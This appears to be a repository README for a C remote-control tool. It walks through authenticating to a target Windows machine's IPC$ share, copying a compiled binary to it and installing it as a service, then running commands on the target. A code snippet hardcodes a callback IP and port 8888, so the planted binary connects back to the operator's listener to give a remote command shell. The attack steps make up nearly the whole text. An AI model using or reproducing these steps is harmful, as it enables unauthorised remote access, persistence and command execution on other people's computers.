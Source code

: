 # It's a simple tool to use IPC in LAN to remote conrtol
## How to use:
- First, we need to know our **IP** in our LAN. Useing the command **<code>ipconfig</code>** in our cmd.exe
- Then, edit the **IP** in the <code>
struct sockaddr_in serverAddr;
serverAddr.sin_family = AF_INET;
serverAddr.sin_addr.s_addr = inet_addr **("192.168.123.7")**; //Write your IP there
serverAddr.sin_port = htons(8888);</code>

- Third, use **<code>net use \\IP\ipc$ "password" /user:"target computer user"</code>** command in your cmd.exe to connect IPC to your target computer. [click here to learn more](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/gg651155(v=ws.11))
- Then, use **<code>dir \\IP\c$</code>** to make sure we hav sufficient permissions to make a Windwos Service in the target computer. If we can, change our code like second step in the **run.c**. Next, we need to use **<code>g++ -o run.exe run.c -lws2_32 -static</code>** command to make it as a .exe file.
- Next, use **<code>copy run.exe \\IP\\PATH</code>** tocopy it to yuor target computer. Then, use **<code>sc //IP create SERVICENAME binpath= "PATH"</code>** in our target. If it runs, run our **socket_server.c** and use **<code>sc \\IP start SERVICENAME</code>** to start Windows service in our target computer.
- Finally, if our **socket_c** shows *run* and can input something, input your cmd command which will run in your target computer.
